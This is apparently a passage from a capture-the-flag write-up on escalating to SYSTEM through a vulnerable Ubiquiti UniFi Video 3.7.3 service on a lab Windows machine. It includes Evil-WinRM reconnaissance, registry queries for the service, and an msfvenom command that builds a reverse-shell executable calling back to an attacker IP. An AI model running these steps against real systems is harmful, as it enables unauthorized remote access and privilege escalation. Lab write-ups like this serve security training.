 ### Privilege Escalation to SYSTEM
Looking at the C:\Users\Stacy\documents directory, we are able to find a unifivideo. Searching this up on exploitdb from [here](https://www.exploit-db.com/exploits/43390), we are able to find out that this belongs to Ubiquiti Unifi Video and there is a privilege escalation vulnerability for it.

Let us first check if the version of Ubiquiti Unifi Video on this machine is vulnerable. From the output, we can see that we are using unifi-video 3.7.3 which is a vulnerable version

```
*Evil-WinRM* PS C:\ProgramData\unifi-video\data> cat system.properties
# unifi-video v3.7.3
#Sat Jun 16 21:58:13 EDT 2018
is_default=false
uuid=e79d440a-62cd-4274-95c3-d746cbb3b817
# app.http.port = 7080
# app.https.port = 7443
# ems.liveflv.port = 6666
# ems.livews.port = 7445
# ems.livewss.port = 7446
# ems.rtmp.enable = true
# ems.rtmp.port = 1935
# ems.rtsp.enable = true
# ems.rtsp.port = 7447
```
However, we would need to know the service name before we can start or stop the service. To do so, we can query the registry for the service name. From the output, we can find that the service name is ```UniFiVideoService```
```
*Evil-WinRM* PS C:\Users\Stacy\Documents> reg query "HKLM\SYSTEM\CurrentControlSet\Services"
...
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UniFiVideoService
...
*Evil-WinRM* PS C:\Users\Stacy\Documents> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UniFiVideoService"
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UniFiVideoService
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x2
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    C:\ProgramData\unifi-video\avService.exe //RS//UniFiVideoService
    DisplayName    REG_SZ    Ubiquiti UniFi Video
    DependOnService    REG_MULTI_SZ    Tcpip\0Afd
    ObjectName    REG_SZ    LocalSystem
    Description    REG_SZ    Ubiquiti UniFi Video Service
```

Let us now generate a reverse shell payload using msfvenom 

```
┌──(kali㉿kali)-[~/Desktop/giddy]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.6 LPORT=4000 -f exe -o shell.exe      2 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
